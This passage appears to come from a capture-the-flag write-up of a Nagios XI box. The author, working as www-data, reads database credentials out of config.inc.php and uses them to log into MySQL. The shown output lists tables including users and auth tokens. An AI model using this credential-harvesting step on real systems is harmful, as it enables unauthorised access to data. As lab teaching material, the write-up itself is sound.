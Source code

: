 Navigating around the box I notice the config.inc.php file in `/var/www/html`, which has more credentials:

```
// DB-specific connection information
$cfg['db_info'] = array(
    "nagiosxi" => array(
        "dbtype" => 'mysql',
        "dbserver" => '',
        "user" => 'nagiosxi',
        "pwd" => 'n@gweb',
        "db" => 'nagiosxi'
```

I can use these credentials to login to mysql:

```
www-data@ubuntu:/usr/local/nagiosxi/html$ mysql -u nagiosxi -pn@gweb
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2373
Server version: 5.7.31-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| nagiosxi           |
+--------------------+
2 rows in set (0.00 sec)

mysql> use nagiosxi;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_nagiosxi  |
+---------------------+
| xi_auditlog         |
| xi_auth_tokens      |
| xi_cmp_trapdata     |
| xi_cmp_trapdata_log |
| xi_commands         |
| xi_eventqueue       |
| xi_events           |
| xi_meta             |
| xi_mibs             |
| xi_options          |
| xi_sessions         |
| xi_sysstat          |
| xi_usermeta         |
| xi_users            |
+---------------------+
14 rows in set (0.00 sec)
```